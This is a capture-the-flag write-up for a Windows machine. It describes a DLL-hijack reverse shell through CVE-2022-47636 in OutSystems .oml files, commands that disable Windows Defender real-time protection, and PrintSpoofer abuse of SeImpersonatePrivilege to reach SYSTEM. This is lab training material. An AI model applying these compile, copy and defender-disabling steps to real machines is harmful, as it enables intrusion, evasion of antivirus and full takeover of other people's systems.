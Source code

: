 # 🔥 Excellent (root) 🔥

`Tweey` @ Iku-toppene

## Summary

As Charles, I find a a .oml file, which I will use to perform a dll hijack to get reverse shell and pivot to the Bill user. As Bill, I have the SeImpersonatePrivilege which I will abuse in order to escalate the privileges to nt authority\system

## Shell as Charles
In the /Desktop there is a file TODO.txt which says the following

```
Lunch with Brian Lester
Plan mission to the moon
Fix Project for Money (he checks it like every minute...)
Disable windows autologin for security reasons
```
He mentions some sort of Project that he works on, and that someone checks this every minute. From further manual enumeration I find a file called Project.oml in `\shared`.

### CVE-2022-47636
Searching for exploits in .oml files shows a dll hijack exploit identified in 2022
![Google results from cve2022-47636](./assets/cve2022-47636.png)
From reading about the exploit on [exploitdb](https://www.exploit-db.com/exploits/51678), it seems fairly trivial to exploit
```
A DLL hijacking vulnerability has been discovered in OutSystems Service 
Studio 11 11.53.30 build 61739.
When a user open a .oml file (OutSystems Modeling Language), the 
application will load the following DLLs from the same directory:

av_libGLESv2.dll
libcef.DLL
user32.dll
d3d10warp.dll

Using a crafted DLL, it is possible to execute arbitrary code in the 
context of the current logged in user.
```
It is possible to run arbitrary dll files, such as a [reverse shell](https://raw.githubusercontent.com/Hood3dRob1n/Y.A.S.P./refs/heads/master/payloads/reverse-dll/reverse_dll.c). 
With the local ip and port added to the payload and netcat listener running, I compile the payload locally using mingw-w64 and transfer the file to the target machine
```
x86_64-w64-mingw32-gcc reverse_dll.c -shared -lws2_32 -o user32.dll
```
![Uploaded user32 to target](./assets/user32.png)
Since I was not sure if all of the DLLs were loaded by project.oml, I also copied the file to the other DLLs listed in the exploit details on [exploitdb](https://www.exploit-db.com/exploits/51678).
```
Copy-Item "user32.dll" -Destination 'av_libGLESv2.dll'
Copy-Item "user32.dll" -Destination 'libcef.dll'
Copy-Item "user32.dll" -Destination 'd3d10warp.dll'
```

## Shell as Bill
Seeing the privileges of the Bill User, I notice that I have access to several privileges.
![privleges](./assets/privleges.png)
To make the privlege escalation easier, I begin by turning the anti virus off. 
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
I also notice the `SeImpersonatePrivilege` is enabled, which allows impersonation of any token. There are multiple payloads we can use in order to exploit it such as juicy-potato, SweetPotato and PrintSpoofer. I will use [PrintSpooler](https://github.com/dievus/printspoofer) to exploit it.
After transferring the PrintSpooler.exe to the target machine (I did it using python http server as previously shown), I can run the payload and start cmd as `nt authorith\system`
![system](./assets/system.png)

**Flag: EPT{4nd_th4T_Wa5_3vEn_BETTER!}**
